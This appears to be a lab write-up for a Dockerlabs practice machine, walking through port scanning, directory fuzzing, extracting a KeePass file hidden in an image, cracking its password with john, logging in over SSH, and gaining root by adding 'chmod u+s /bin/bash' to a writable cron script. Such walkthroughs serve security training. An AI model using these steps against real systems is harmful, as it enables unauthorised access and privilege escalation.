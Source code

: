 
![dockerlabs](https://github.com/user-attachments/assets/b3d3aade-08ea-4beb-8df9-716546c86b98)

---



`Creator`:  [El pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

`Page`: [Dockerlabs](https://dockerlabs.es/)


---

- I start with a scan of the open ports
  
  ```bash
  nmap -p- -vvv --min-rate 5000 -Pn -sS 172.17.0.2 -oG scan
  ```
  
  ![Untitled](https://github.com/user-attachments/assets/0aec04f2-d4fa-4310-9341-d62b813bfcf9)


- Scanning open ports

  ```bash
  nmap -p22,80 -sCV 172.17.0.2 -oN ports
  ```
  
  ![Untitled 1](https://github.com/user-attachments/assets/6256a6a7-661a-4b7e-87e2-00da609dd990)


- I access to the website

  ![Untitled 2](https://github.com/user-attachments/assets/91e182c6-ebbc-4e77-91cf-6fcf2dc21741)


- I will perform fuzzing to try to find directories

  ```bash
  gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -t 300
  ```
  
  ![Untitled 3](https://github.com/user-attachments/assets/f67b67c6-a506-4931-8f29-d739d82d405c)


- Since I do not find anything relevant, I will perform fuzzing to find files

  ```bash
  gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -t 500 -x .php,.js,.txt,.html,.py,.sh
  ```
  
  ![Untitled 4](https://github.com/user-attachments/assets/6999b06a-f351-4cce-8feb-c3ace4cdb5b7)
  

- I access the website penguin.html

  ![Untitled 5](https://github.com/user-attachments/assets/10ca605a-6485-420b-8a52-42655c85500d)


- I download the image and look for hidden chains or files

  ```bash
  strings penguin.jpg
  stegseek penguin.jpg 
  ```
  
  ![Untitled 6](https://github.com/user-attachments/assets/64bf0fb6-11c4-45b6-b099-29da19948f10)


- I find a file with the extension kdbx. I change its name, I get its hash and I try to get its password

  ```bash
  mv  penguin.jpg.out  penguin.kdbx
  keepass2john penguin.kdbx > hash
  john --wordlist=/usr/share/wordlist/rockyou.txt hash
  ```
  
  ![Untitled 7](https://github.com/user-attachments/assets/6a7b8f9b-9e4a-4a03-add1-441ef0aebcb2)


- I use the password found to see the content of the file
  
  ![Untitled 8](https://github.com/user-attachments/assets/0192e806-efaa-4beb-b14f-5f4d0fcf37f1)


- I find a username and password. I tried to log in with ssh

  ![Untitled 9](https://github.com/user-attachments/assets/462d0684-c2dd-4105-a60c-7a6839fa4dd5)


- Once inside I find two files. I list the processes that are running on the system
  
  ```bash
  ps -aux
  ```
  
  ![Untitled 10](https://github.com/user-attachments/assets/457e32eb-4b9f-4f55-b6ce-986264e4fc20)
  
  
  ![Untitled 11](https://github.com/user-attachments/assets/3921830a-e229-47c1-8a11-45c3f964ec9e)
  
  
  ![Untitled 12](https://github.com/user-attachments/assets/5d3ac9a8-498f-4d30-8a8d-01dab8662dd9)


- I observe that the script is executed periodically and that I have write permission on it
- I add a command to be able to run as root
  
  ```bash
  nano script.sh
  
  chmod u+s /bin/bash
  ```
  
  ![Untitled 13](https://github.com/user-attachments/assets/b71d9e9c-d9f5-4884-8c05-2cd3888c3470)
  

- I see that the script has been executed and now I can spawn a terminal as root
  
  ```bash
  /bin/bash -p
  ```
  ![Untitled 14](https://github.com/user-attachments/assets/9f19662b-dc4c-42ce-ba98-2bdcfd1f5c84)
